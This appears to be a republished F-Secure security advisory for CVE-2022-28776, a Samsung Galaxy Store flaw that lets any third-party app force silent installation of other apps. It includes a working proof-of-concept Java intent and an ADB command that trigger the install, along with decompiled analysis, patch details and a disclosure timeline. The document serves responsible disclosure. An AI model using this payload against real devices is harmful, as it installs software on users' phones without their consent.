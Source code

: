 ```yaml
---
layout: page
title: CVE-2022-28776 Details
permalink: /cves/CVE-2022-28776
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-galaxy-any-app-can-install-any-app/](https://labs.f-secure.com/advisories/samsung-galaxy-any-app-can-install-any-app/)

|    **Product**    | Galaxy Store prior to version 4.5.36.4 |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2022-28776             |
|      **Type**     |      Automatic Application Install     |

## Description

F-Secure looked into exploiting the Samsung Galaxy S21 device for Austin Pwn2Own 2021. The Galaxy App Store contained an issue with how it handled specific intents. When an intent was sent to one of three exported activities, the Galaxy App Store would create a new intent, while taking all of the calling intent's extras and packaging them with the new intent. This new intent could then be manipulated in such a way that the Galaxy App Store would be forced to automatically install other applications onto the victim's device without consent.

## The Exploit

The following exported activities could have been used to exploit this issue:

* `com.sec.android.app.samsungapps.viewpager.InterimActivity`
* `com.sec.android.app.samsungapps.interim.essentials.InterimEssentialsActivity`
* `com.sec.android.app.samsungapps.downloadableapps.DownloadableAppsActivity`

As an example, the following Java code could have been used by a third party application to automatically install the application "Pokemon Go". This code uses the Java class `com.sec.android.app.samsungapps.viewpager.InterimActivity`:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.sec.android.app.samsungapps", "com.sec.android.app.samsungapps.viewpager.InterimActivity"));
intent.putExtra("directcall", true);
intent.putExtra("isInternal", true);
intent.putExtra("directInstall", true);
intent.putExtra("installReferrer", "com.sec.android.app.samsungapps");
intent.putExtra("directOpen", true);
intent.putExtra("GUID", "com.nianticlabs.pokemongo.ares");
startActivity(intent);
```

Alternatively, the following ADB command could have been used to install the application "Pokemon Go". This command also uses the Java class `com.sec.android.app.samsungapps.viewpager.InterimActivity`:

```
am start -n com.sec.android.app.samsungapps/com.sec.android.app.samsungapps.viewpager.InterimActivity --ez directcall true --ez isInternal true --ez directInstall true --es installReferrer com.sec.android.app.samsungapps --ez directOpen true --es GUID com.nianticlabs.pokemongo.ares
```

## Technical Details

Each of the exploitable exported classes contains code that parses the calling intent and creates:

* a data URI that starts with `samsungapps://CategoryList/`
* extracts the intent extras and adds an additional extra Boolean `isFromInterim` and sets it to True (though this extra does not get used later)

The data URI and extras are passed to class `com.sec.android.app.util.DeeplinkUtil` method `openInternalDeeplink`. To show this, below is the code found in class `com.sec.android.app.samsungapps.interim.essentials.InterimEssentialsActivity` method `a`:

```
private void a() {
    Bundle extras = getIntent().getExtras();
    if (extras == null) {
        extras = new Bundle();
    }
    extras.putBoolean(DeepLink.EXTRA_DEEPLINK_IS_FROM_INTERIM, true);
    DeeplinkUtil deeplinkUtil = new DeeplinkUtil(this);
    deeplinkUtil.openInternalDeeplink("samsungapps://CategoryList/" + Constant.GALAXY_ESSENTIALS, extras);
}
```

`openInternalDeepLink` creates a new intent, adds the previously captured extras to the intent and adds an extra string sender value of `com.sec.android.app.samsungapps`. Thenewly created intent is sent to class `com.sec.android.app.samsungapps.deeplink.DeepLinkFactory` method `createDeepLink` which will return a deeplink, and set the deeplink as an internal deeplink:

```
public boolean openInternalDeeplink(String str, Bundle bundle) {
    if (!Common.isValidString(str)) {
       return false;
    }
    Intent intent = new Intent();
    intent.putExtra("sender", this.activity.getPackageName());
    intent.setData(Uri.parse(str));
    if (bundle != null) {
        intent.putExtras(bundle);
    }
    DeepLink createDeepLink = DeepLinkFactory.createDeepLink(intent);
    if (createDeepLink == null) {
        return false;
    }
    createDeepLink.setIsInternal(true);
    DeeplinkManager.getInstance().setInternalDeeplink(true);
    DeepLinkFactoryUtil.sendDeeplinkLaunchingLog(createDeepLink.getDeeplinkUrl(), true);
    return createDeepLink.runInternalDeepLink(this.a);
}
```

`createdeeplink` creates a "Product Detail Deeplink" deeplink. This deeplink contains all of the extras that were set in the intent:

```
public static DeepLink createDeepLink(final Intent intent) {
    try {
        final boolean booleanExtra = intent.getBooleanExtra("directcall", false);
        final String stringExtra = intent.getStringExtra("GUID");
        final Bundle extras = intent.getExtras();
        if (booleanExtra && stringExtra != null && stringExtra.length() != 0) {
            final StringBuilder sb = new StringBuilder();
            sb.append("[GADeepLink] ::directcall::");
            sb.append(stringExtra);
            AppsLog.d(sb.toString());
            return DeepLinkFactoryUtil.createProductDetailDeepLink(stringExtra, extras);
        }
```

DeepLink parameters are set via class `com.sec.android.app.samsungapps.utility.deeplink`. DeepLink which sets different values based on the passed intent extras, such as `directInstall`:

```
public void initialize(Bundle bundle) {
    ...
    this.u = getBundleBoolean(bundle, EXTRA_DEEPLINK_DIRECT_INSTALL, false);
    ...
```

The application then automatically processes the newly created "Product Detail Deeplink" deeplink as if it was a standard deeplink. While processing, the class `com.sec.android.app.samsungapps.deeplink. DetailPageDeepLink` method `runInternalDeeplink` is called, which looks for intent extras such as `directInstall`:

```
public boolean runInternalDeepLink(Context context) {
    AppsLog.d(this.a + "::runInternalDeepLink::");
    if (launchApp(context, getDetailID())) {
        return true;
    }
    if (this.isStickerApp) {
        DetailPageHelper.launchStickerDetailFromDeeplink(context, getDetailID(), this.d, getAdSource(), getDeeplinkUrl());
        return true;
    }
    DetailConstant.DETAIL_TYPE detail_type = DetailConstant.DETAIL_TYPE.COMMON;
    if (isForGear()) {
        detail_type = DetailConstant.DETAIL_TYPE.GEAR;
    } else if (a()) {
        detail_type = DetailConstant.DETAIL_TYPE.GAME;
    }
    DetailPageHelper.launchDetailFromDeeplink(context, getDetailID(), detail_type, this.mSignId, this.mQueryStr, getAdSource(), this.b, getSender(), isDirectInstall(), isDirectOpen(), getType(), this.f, getDeeplinkUrl(), this.mEncodedReferrer);
    return true;
}
```

Similar to the bug outlined in [https://yogehi.github.io/cves/cve-2022-22288.html](https://yogehi.github.io/cves/cve-2022-22288.html), class `com.sec.android.app.samsungapps.deeplink.DetailPageDeepLink` method `putDetailCommonExtra` is eventually called again:

```
public void putDetailCommonExtra(Context context) {
    ...
    if (isDirectInstall() && appManager.enableDDI(getSender(), getDetailID(), DeeplinkManager.getInstance().getInternalDeeplink())) {
        this.intent.putExtra(DeepLink.EXTRA_DEEPLINK_DIRECT_INSTALL, isDirectInstall());
        this.intent.putExtra("sender", getSender());
    }
```

`enableDDI` is called again, but this time it will return true due to the calling intent being an internal deeplink:

```
public boolean enableDDI(String sender, String appId, boolean isInternalDeeplink) {
    if (isDDITestMode()) {
        return true;
    }
    if ((!isGalaxyStore(sender) || !isInternalDeeplink) && !isWhiteListAppForOneClick(sender, appId)) {
        return false;
    }
    return true;
}
```

Since `enableDDI` returns true, the target application gets installed.

## Remedial Action

Samsung has released the Galaxy Store version 4.5.36.4 which addresses this issue. Users should update their Galaxy Store application to the latest version available.

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   17/10/2021   | Issue disclosed to Samsung Mobile Security |
|   17/10/2021   | Issue assigned to a Samsung Security Analyst |
|   22/11/2021   | Samsung confirms the vulnerability and rates it as a critical risk issue |
|   13/02/2022   | Patch released, Samsung initiates process for bug bounty reward |
|   12/04/2022   | CVE Assigned |
|   04/05/2022   | Advisory Published |
